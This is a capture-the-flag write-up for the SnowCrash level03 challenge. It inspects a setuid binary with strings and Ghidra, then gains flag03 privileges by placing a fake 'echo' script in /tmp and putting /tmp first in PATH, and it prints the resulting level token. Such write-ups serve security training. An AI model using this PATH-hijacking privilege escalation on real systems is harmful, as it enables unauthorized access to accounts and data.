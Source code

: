 # level03
_The ritual_ :
- `pwd`: `/home/user/level03`
- `id`: `uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
- `find / -user flag02 2> /dev/null`: **A LOT OF USELESS THINGS**
It show all the `/proc` folder.

_Oh... A binary file... **RUN IT**_
```sh
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
_Okay let's exploit you !_
- A binary file can't be read by a human, but there is some hint in it anyway, and the command `strings` isolate them :
```sh
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
types.h
long long int
__uid_t
envp
/home/user/level03/level03.c
long long unsigned int
setresuid
setresgid
unsigned char
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
short int
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
level03.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
setresuid@@GLIBC_2.0
__i686.get_pc_thunk.bx
data_start
_edata
_fini
geteuid@@GLIBC_2.0
getegid@@GLIBC_2.0
__DTOR_END__
__data_start
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
setresgid@@GLIBC_2.0
_init
level03@SnowCrash:~$
```

- Okay, we can see these lines : `system` - `/usr/bin/env echo Exploit me`
-> In the binary we can see all function used and there arguments
- `system` execute a command line the terminal
- `/usr/bin/env echo Exploit me` can be how the output is execut.

_I think it's time to discover how to decompile a file_
- Let's tranfer this file in my machine :
```sh
➜  ~ scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::2577:d9d0:9935:9a6 fec0::5054:ff:fe12:3456
level03@127.0.0.1's password:
level03                                                                                                                                                                   100% 8302   403.5KB/s   00:00
➜  ~
```
- And let's install [ghidra](https://ghidra-sre.org/)

**OKAY, the file is decompiled** :
![decompiled](../../assets/level03/decompiled.png)
## YES ! I had just !

_So, what I have supposed to do now ?_

- We can "intercept" the command `echo` by adding a folder in the `PATH`, but wich one ? A folder for which I have the rights... **`/tmp`** ?
```sh
level03@SnowCrash:~$ export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
```
If I create a file named "echo" in `/tmp` with a command in it, what happened ?
```sh
level03@SnowCrash:~$ echo "ls" > /tmp/echo
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
- Nothing happened... maybe the file has not the good permissions ?
```sh
level03@SnowCrash:~$ chmod 777 /tmp/echo
```
- Let's try again :
```sh
level03@SnowCrash:~$ ./level03
ls: cannot open directory .: Permission denied
level03@SnowCrash:~$
```
### SUCCESS, SOMETHING HAPPENED
_What we can do to this program ?... Which command can help us to complet this level ??? Mmmmhhhh..._
```sh
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```
# YEEEEEEEESSS
Let's login to `level04` directly :
```sh
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
# level03 complet !
![yeah](../../assets/yeah.gif)